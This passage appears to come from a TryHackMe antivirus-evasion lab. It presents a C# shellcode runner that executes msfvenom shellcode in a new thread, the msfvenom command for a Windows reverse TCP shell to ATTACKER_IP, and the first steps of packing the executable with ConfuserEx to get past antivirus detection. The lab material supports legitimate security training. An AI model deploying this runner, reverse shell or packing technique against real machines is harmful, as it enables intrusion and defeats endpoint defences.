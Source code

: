 ```csharp
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the `shellcode` variable of the code:

Command Prompt

```shell-session
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

You can then compile your payload in the Windows machine using the following command:

Command Prompt

```shell-session
C:\> csc UnEncStagelessPayload.cs
```

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on `.NET`. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:

![Packer config part1](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9214df2a88ffffbf8561502aa19a375c.png)
